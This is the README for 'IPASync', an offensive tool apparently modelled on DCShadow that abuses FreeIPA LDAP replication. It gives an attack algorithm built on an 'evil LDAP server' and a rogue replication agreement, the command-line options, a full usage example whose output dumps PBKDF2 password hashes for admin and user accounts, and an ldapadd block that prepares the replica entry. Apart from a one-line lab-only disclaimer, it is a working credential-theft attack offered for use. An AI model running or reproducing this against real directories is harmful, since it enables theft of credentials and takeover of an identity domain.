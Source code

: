 # IPASync

This is an analog of DCShadow for FreeIPA.

### Basic algorithm:
1) Start evil LDAP server
2) Add entry to LDAP (...,cn=mapping tree,cn=Config)
3) Wait a start of replication
4) Stop evil LDAP server
5) Delete entry from LDAP (...,cn=mapping tree,cn=Config)

### Waring: The LDAP server must have access to your port to connect.

There should also be an entry in LDAP cn=replica,cn=dc\=test\,dc\=local,cn=mapping tree,cn=Config. Or you should create it yourself.

### Options:
```
Add LDAP replication agreement entry with automatic DN construction

options:
  -h, --help            show this help message and exit
  -d, --debug           Enable debug mode (default: False)
  -t TIMEOUT, --timeout TIMEOUT
                        Timeout in seconds for wait for replication (default: 5)
  -H LDAP_URL, --ldap-url LDAP_URL
                        LDAP server url (ldap://...)
  -u BIND_DN, --bind-dn BIND_DN
                        Bind DN for authentication
  -p BIND_PW, --bind-pw BIND_PW
                        Bind password
  --replica-host REPLICA_HOST
                        Replica host IP
  --replica-port REPLICA_PORT
                        Replica port (default: 389)
  --replica-root REPLICA_ROOT
                        Replica root (e.g. dc=test,dc=local) (default: None)
  -a ALL, --all ALL     Dump all data to file (-a /path/to/file). By default only password hash.
```

Only for testing in local laboratories!

### Usage example:
```
python ipa_sync.py --ldap-url ldap://dc1.test.local --bind-dn uid=admin,cn=users,cn=accounts,dc=test,dc=local --bind-pw 'P@ssw0rd' --replica-port 3389 --replica-root dc=test,dc=local -t 7 --replica-host 10.10.10.10
Successfully added entry: cn=dcsync,cn=replica,cn=dc\3Dtest\2Cdc\3Dlocal,cn=mapping tree,cn=config
Added complete. Start LDAP server.
Wait replication...
[*] preserved_user@TEST.LOCAL:
[*] uid=sudo,cn=sysaccounts,cn=etc,dc=test,dc=local:{PBKDF2-SHA512}10000$krdW...jFBL3YSBfqkMNUn9oGYS2IUtYwawfxSRZehiOt9wyvuB2IJH9pNez0dQ==
[*] admin@TEST.LOCAL:{PBKDF2-SHA512}100000$2MOEbZSzdTCsU1z4wF903jSAjVHaEKpi$Yks...x4IRs4rSwoiCjMcdpN97AIHgQLj6c7lAepRuWrteNdoS7UXSivw==
[*] ivanov@TEST.LOCAL:{PBKDF2-SHA512}100000$QUAh31ewIp3oue+pHyC2bUM5al9sEdyO$25E...Anp2M8seTot6vxcSZef4CFc8mxV9v6g/5WOvuNnHARXGrDhjRLaA==
Server terminated. Delete replication agreement
LDAP error during deletion: error receiving data: timed out
```


### Before start


```
$ ldapadd -H ldap://dc1.test.local
dn: cn=replica,cn="dc=test,dc=local",cn=mapping tree,cn=config
changetype: add
objectClass: nsDS5Replica
objectClass: top
nsDS5ReplicaId: 2
nsDS5ReplicaRoot: dc=test,dc=local
cn: replica
nsDS5Flags: 1
nsDS5ReplicaBindDN: cn=replication manager,cn=config
nsds5ReplicaChangeCount: 0
nsDS5ReplicaType: 3
```
